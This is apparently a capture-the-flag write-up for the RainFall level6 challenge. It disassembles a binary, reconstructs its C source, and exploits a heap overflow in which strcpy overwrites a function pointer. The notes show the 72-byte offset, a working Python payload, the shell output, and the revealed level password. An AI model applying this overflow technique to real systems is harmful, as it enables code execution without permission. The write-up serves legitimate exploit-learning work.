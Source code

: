 ## level6 TODO NOTES
Below is the objdump for level6
```
08048454 <n>:
 8048454:       55                      push   ebp
 8048455:       89 e5                   mov    ebp,esp
 8048457:       83 ec 18                sub    esp,0x18
 804845a:       c7 04 24 b0 85 04 08    mov    DWORD PTR [esp],0x80485b0
 8048461:       e8 0a ff ff ff          call   8048370 <system@plt>
 8048466:       c9                      leave
 8048467:       c3                      ret

08048468 <m>:
 8048468:       55                      push   ebp
 8048469:       89 e5                   mov    ebp,esp
 804846b:       83 ec 18                sub    esp,0x18
 804846e:       c7 04 24 d1 85 04 08    mov    DWORD PTR [esp],0x80485d1
 8048475:       e8 e6 fe ff ff          call   8048360 <puts@plt>
 804847a:       c9                      leave
 804847b:       c3                      ret

0804847c <main>:
 804847c:       55                      push   ebp
 804847d:       89 e5                   mov    ebp,esp
 804847f:       83 e4 f0                and    esp,0xfffffff0
 8048482:       83 ec 20                sub    esp,0x20
 8048485:       c7 04 24 40 00 00 00    mov    DWORD PTR [esp],0x40
 804848c:       e8 bf fe ff ff          call   8048350 <malloc@plt>
 8048491:       89 44 24 1c             mov    DWORD PTR [esp+0x1c],eax
 8048495:       c7 04 24 04 00 00 00    mov    DWORD PTR [esp],0x4
 804849c:       e8 af fe ff ff          call   8048350 <malloc@plt>
 80484a1:       89 44 24 18             mov    DWORD PTR [esp+0x18],eax
 80484a5:       ba 68 84 04 08          mov    edx,0x8048468
 80484aa:       8b 44 24 18             mov    eax,DWORD PTR [esp+0x18]
 80484ae:       89 10                   mov    DWORD PTR [eax],edx
 80484b0:       8b 45 0c                mov    eax,DWORD PTR [ebp+0xc]
 80484b3:       83 c0 04                add    eax,0x4
 80484b6:       8b 00                   mov    eax,DWORD PTR [eax]
 80484b8:       89 c2                   mov    edx,eax
 80484ba:       8b 44 24 1c             mov    eax,DWORD PTR [esp+0x1c]
 80484be:       89 54 24 04             mov    DWORD PTR [esp+0x4],edx
 80484c2:       89 04 24                mov    DWORD PTR [esp],eax
 80484c5:       e8 76 fe ff ff          call   8048340 <strcpy@plt>
 80484ca:       8b 44 24 18             mov    eax,DWORD PTR [esp+0x18]
 80484ce:       8b 00                   mov    eax,DWORD PTR [eax]
 80484d0:       ff d0                   call   eax
 80484d2:       c9                      leave
 80484d3:       c3                      ret
 80484d4:       90                      nop
 80484d5:       90                      nop
 80484d6:       90                      nop
 80484d7:       90                      nop
 80484d8:       90                      nop
 80484d9:       90                      nop
 80484da:       90                      nop
 80484db:       90                      nop
 80484dc:       90                      nop
 80484dd:       90                      nop
 80484de:       90                      nop
 80484df:       90                      nop
 ```
Looking at the object jump, the code looks something like this
```clike=
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

// 08048454
void    n()
{
	system("/bin/cat /home/user/level7/.pass");
}

// 08048468
void    m()
{
	puts("Nope");
}

int main()
{
    // 8048482
    char *ptr1;
    void* fn_ptr;
    
    // 804848c
    ptr1 = malloc(64);
    
    // 804849c
    fn_ptr = malloc(4);
    
    // 80484a5 - 80484ae
    *fn_ptr = m;
    
    // 80484ba - 80484c5
    strcpy(ptr1, argv[1]);
    
    // 80484ce - 80484d0
    (*fn_ptr)();
}
```
Looks like we have a heap overflow vulnerability here. Heap overflow mechanics work silimar to stack overflows, except that they are **iverted and have space between elements**. The procesure will be similar, we will execute the following steps:
1. Find how many characters we need to input to overwrite fn_ptr
2. Once offset is found, append the function address of n()

For the first step, I generated my input using the script `python -c "print 'B' * 73"`, which goves me the offset. I also learnt to do direct derefrencing using ` x/10x  *(int *)($esp+0x18)` to validate results
![image](https://hackmd.io/_uploads/H10TMUiHa.png)

The offset is 72, now I will append the address in my input to overwrite the function pointer with value `08048454`. `python -c "print 'B' * 72 + '\x08\x04\x84\x54'[::-1]"`. The password is `f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d`

```
level6@RainFall:~$ ./level6 `python -c "print 'B' * 72 + '\x08\x04\x84\x54'[::-1]"`
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
level6@RainFall:~$
```

